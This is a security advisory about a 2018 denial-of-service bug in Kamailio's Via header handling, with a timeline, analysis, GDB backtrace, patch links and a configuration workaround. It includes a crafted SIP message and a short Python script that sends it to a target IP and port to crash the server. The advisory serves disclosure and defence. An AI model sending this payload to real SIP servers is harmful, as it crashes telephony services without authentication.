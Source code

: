 ## Security vulnerability in Kamailio core related to Via header processing, denial of service possible.

- Author: Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-XXXX
<!--- Kamailio Security Advisory: todo-->
- Tested vulnerable versions: 5.1, 4.0, git master
- Timeline:
    - Report date: 2018-06-03
    - Kamailio patch: 2018-06-03
    - Kamailio release with patch: 2018-06-05
    - Security advisory: 2018-06-13

### Description

There exists a security vulnerability in the Kamailio core related to Via header processing. A specially crafted SIP message with several invalid `Via` headers causes a segmentation fault and crashes Kamailio. The reason is missing input validation in the `crcitt_string_array` core function for calculating a CRC hash for To tags.  An additional error is present in the `check_via_address` core function, this function also misses input validation.

### Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

### How to reproduce the issue

The following SIP message with several invalid `Via` header can be used to reproduce the vulnerability:


```
INVITE sip:0 SIP/2.0
To: 0
Via: SIP/2.0/UDP :]
Viaa:
```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "INVITE sip:0 SIP/2.0\n" \
        "To: 0\n" \
        "Via: SIP/2.0/UDP :]\n" \
        "Viaa:\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program received signal SIGSEGV, Segmentation fault.
0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
239                             ccitt = UPDCIT( *c, ccitt );
(gdb) bt
#0  0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
#1  0x00007ffff6162309 in calc_crc_suffix (msg=0x7ffff72c37c8, tag_suffix=0x7ffff6373961 <sl_tag_buf+33> "") at ../../core/tags.h:55
#2  0x00007ffff6162f5c in sl_reply_helper (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)", tag=0x0) at sl_funcs.c:166
#3  0x00007ffff61644c3 in sl_send_reply (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)") at sl_funcs.c:304
#4  0x00007ffff6164ca7 in sl_reply_error (msg=0x7ffff72c37c8) at sl_funcs.c:362
#5  0x00007ffff6168245 in w_sl_reply_error (msg=0x7ffff72c37c8, str=0x0, str2=0x0) at sl.c:233
#6  0x000000000043966a in do_action (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1067
#7  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1565
#8  0x00000000004395d9 in do_action (h=0x7fffffffd120, a=0x7ffff72919b8, msg=0x7ffff72c37c8) at core/action.c:1058
#9  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff728bef0, msg=0x7ffff72c37c8) at core/action.c:1565
#10 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff72ac508, msg=0x7ffff72c37c8) at core/action.c:691
#11 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff72ac098, msg=0x7ffff72c37c8) at core/action.c:1565
#12 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff7287ba8, msg=0x7ffff72c37c8) at core/action.c:691
#13 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7282420, msg=0x7ffff72c37c8) at core/action.c:1565
#14 0x00000000004465c2 in run_top_route (a=0x7ffff7282420, msg=0x7ffff72c37c8, c=0x0) at core/action.c:1654
#15 0x000000000058908d in receive_msg (buf=0xa56a60 <buf> "INVITE sip:0 SIP/2.0\nTo: 0\nViaa: SIP/2.0/UDP\nV\nVia:\nVia: SIP/2.0/UDP :]", len=71, rcv_info=0x7fffffffd740) at core/receive.c:331
#16 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#17 0x00000000004253d1 in main_loop () at main.c:1432
#18 0x000000000042d631 in main (argc=17, argv=0x7fffffffdc68) at main.c:2650
```

This security issue was discovered through extensive SIP message fuzzing with [afl](http://lcamtuf.coredump.cx/afl/) and an internal toolset.

### Solutions and recommendations

Apply the correct patch [git master](https://github.com/kamailio/kamailio/commit/ad68e402ece8089f133c10de6ce319f9e28c0692?target=_blank), [version 5.1](https://github.com/kamailio/kamailio/commit/d67b2f9874ca23bd69f18df71b8f53b1b6151f6d?target=_blank), or [version 5.0](https://github.com/kamailio/kamailio/commit/f07dabffef98c7088cdbc2bd695a4ae7a241b159?target=_blank) from github or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7). For older Kamailio version and in case you need more time for an update you can add the following logic on top of to your `request_route` block in your kamailio configuration file. This will drop this malicious  message and prevent its processing.

```
if($(hdr(Viaa)) != $null) {
    xlog("invalid Via header found - dropping message");
    drop;
}

```

### About Henning Westerholt

[Henning Westerholt](https://skalatan.de/about) is a core developer of Kamailio since 2007. He provides consulting services for Kamailio in the performance, reliability and security areas.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
